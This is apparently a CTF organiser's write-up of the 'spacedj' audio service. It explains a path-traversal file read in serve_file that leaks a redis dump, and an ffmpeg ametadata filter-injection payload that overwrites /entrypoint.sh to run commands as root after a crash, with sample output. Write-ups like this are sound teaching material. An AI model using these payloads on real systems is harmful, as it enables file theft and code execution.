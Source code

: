 # spacedj

![alt text](../images/spacedj.png)

## Description

This is a simple looking service for basic audio manipulation, offering some presets (such as bassboost, daycore, nightcore) and an option to customize the coefficients used by the processing engine. As can be noticed from the "changelog" and later from the checker traffic - it does support some math expression syntax alongside with the most common constants and algebra functions.

Results are saved to the filesystem (uploads/{uuid}.mp3) while metadata is saved to the redis (remix_{uuid}).
Flags are stored in the EXIF of the track.

## Vulnerabilities

**First vulnerability** lies in this line of code inside the `serve_file` function:
```python
os.path.join('/app/uploads', request.query.get('name'))
```
Using arbitrary file read we can download redis dump located at the `/var/lib/redis/dump.rdb` (updates every 5 minutes, redis creates it by default), grep filenames and check them one by one.

---
\
**Second vulnerability** is a bit trickier. Further scouting through the code, we can see that all magic is happening inside `dj` module, which is a CPython extension. After superficial reverse, we can notice that this module has libav* linked to it and uses ffmpeg filter graphs. How can we take advantage of that?

Seeking through ffmpeg documentation, [ametadata](https://ffmpeg.org/ffmpeg-filters.html#metadata_002c-ametadata) filter will definitely grab our attention. Why? Because it allows us to write partially controlled content to any file on the filesystem. Impact grows higher when we notice that service container has no custom user configurations, thus everything is running as `root`!

An example exploitation scenario goes as follows:
1. Override `/entrypoint.sh` with `ametadata` output like this (audio should have at least 2 frames, set `loudnorm` (last coefficient) to `1` as well):
```python
f"1,ametadata=add:key=fyec:value='a; \necho PWNED\ncd /app && python3.12 main.py',ametadata=print:file=/entrypoint.sh"
```

2. File will end up looking like:
```
frame:0    pts:0       pts_time:0
fyec=a;
echo PWNED
cd /app && python3.12 main.py
frame:1    pts:338688  pts_time:0.024
fyec=a;
echo PWNED
cd /app && python3.12 main.py
```

3. Crash the app using faulty filters or format string operands. `entrypoint.sh` will continue execution from where it has stopped, ignoring all wrong lines.

```
dj-backend  | Segmentation fault (core dumped)
dj-backend  | /entrypoint.sh: 5: in.py: not found
dj-backend  | /entrypoint.sh: 6: frame:1: not found
dj-backend  | PWNED
```

4. Drop payload, clean traces, steal flags!
----
\
Actually, it was also intended for the module to have third **format string vulnerability**. However, during the service containerisation (which was not really straightforward due to the dynamically linked libraries), we've decided to bump the python version, and that's where `PRINTF_FORTIFY` sneaked in. We were late to notice that. Rest in pepperoni :(